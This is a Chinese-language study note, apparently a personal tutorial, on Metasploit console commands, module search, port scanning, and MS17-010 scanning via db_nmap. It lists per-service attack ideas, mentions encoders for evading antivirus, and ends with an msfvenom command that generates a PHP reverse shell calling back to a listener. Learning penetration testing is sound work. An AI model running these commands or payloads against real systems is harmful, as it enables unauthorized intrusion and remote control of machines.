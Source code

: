 ```yaml
---
icon: pen-to-square
date: 2025-03-31
tags: 
title: Metasploit
category:
  - 项目
---
```

## unset 
### **基本用法**
```bash
unset <选项名称>
```

或取消所有选项：
```bash
unset all
```
## setg

### ** 基本语法**
```bash
setg <选项名称> <值>
```
全局设置，如果想撤销全局设置可以用unsetg
- setg会被模块内的set覆盖

## search
### ** 基本语法**


```bash
search [options] <keyword1> [keyword2] ...
```

**常用选项**：

| 选项              | 说明                                                                   | 示例                        |
| --------------- | -------------------------------------------------------------------- | ------------------------- |
| `-h`            | 查看帮助                                                                 | `search -h`               |
| `type:<类型>`     | 按模块类型过滤（`exploit`, `auxiliary`, `post`, `payload`, `encoder`, `nop`） | `search type:exploit`     |
| `name:<名称>`     | 按模块名称搜索                                                              | `search name:eternalblue` |
| `cve:<CVE编号>`   | 按CVE编号搜索                                                             | `search cve:2017-0144`    |
| `platform:<平台>` | 按目标平台搜索（`windows`, `linux`, `android`）                               | `search platform:windows` |
| `author:<作者>`   | 按作者搜索                                                                | `search author:hdm`       |
## 查看辅助模块
任何支持模块，例如扫描程序、爬网程序和模糊测试程序，都可以在此处找到。

```bash
tree -L 1 auxiliary
```
以树状结构
**输出示例**：

复制
```bash
auxiliary
├── admin
├── analyze
├── client
├── cloud
├── crawler
├── dos
├── fileformat
├── fuzzers
├── gather
├── scanner
├── server
└── sniffer
```
- 这里列出了 `auxiliary` 下所有 **一级子目录**（如 `scanner`、`dos`、`admin` 等），每个目录代表一类辅助模块。
这是虚拟目录，不真实存在

## 编码

编码器将允许您对漏洞利用和有效负载进行编码，希望基于签名的防病毒解决方案可能会错过它们。

Metasploit拥有许多扫描端口的模块
```bash
msf6 > search portscan Matching Modules ================ # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 0 auxiliary/scanner/http/wordpress_pingback_access normal No Wordpress Pingback Locator 1 auxiliary/scanner/natpmp/natpmp_portscan normal No NAT-PMP External Port Scanner 2 auxiliary/scanner/portscan/ack normal No TCP ACK Firewall Scanner 3 auxiliary/scanner/portscan/ftpbounce normal No FTP Bounce Port Scanner 4 auxiliary/scanner/portscan/syn normal No TCP SYN Port Scanner 5 auxiliary/scanner/portscan/tcp normal No TCP Port Scanner 6 auxiliary/scanner/portscan/xmas normal No TCP "XMas" Port Scanner 7 auxiliary/scanner/sap/sap_router_portscanner normal No SAPRouter Port Scanner
```
同样也可以用show option进行设置
- **并发：** 要同时扫描的目标数。
- **port：** 要扫描的端口范围。请注意，这里的 1-1000 与使用 Nmap 和 default 配置。Nmap 将扫描 1000 个最常用的端口，而 Metasploit 将从 1 个开始扫描端口号 设置为 10000。
- **主机：**要扫描的目标或目标网络。
- **线程：**将同时使用的线程数。线程越多，扫描速度就越快。

hosts指令用于查找之前设定的目标ip

可以使用nmap数据库与其他模块进行交互
1. **先使用 `db_nmap` 扫描网络**，获取开放的 445 端口的主机信息。
    
2. **再使用 `auxiliary/scanner/smb/smb_ms17_010` 模块**，针对开放 445 端口的主机进行 MS17-010 漏洞扫描。
具体操作
先用db_nmap扫描端口并输入到数据库、
然后hosts -R从数据库中设置目标host

services查看数nmap据库中的服务信息

漏洞思路
- HTTP：可能托管一个 Web 应用程序，您可以在其中发现 SQL 注入或远程代码执行 （RCE） 等漏洞。
- FTP：可以允许匿名登录并提供对有趣文件的访问。
- SMB：可能容易受到 MS17–010 等 SMB 漏洞的攻击
- SSH：可能具有默认或易于猜测的凭据
- RDP：如果使用了弱凭据，则可能容易受到 Bluekeep 的攻击或允许桌面访问。


```bash
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```
这是一个生成php反弹shell的命令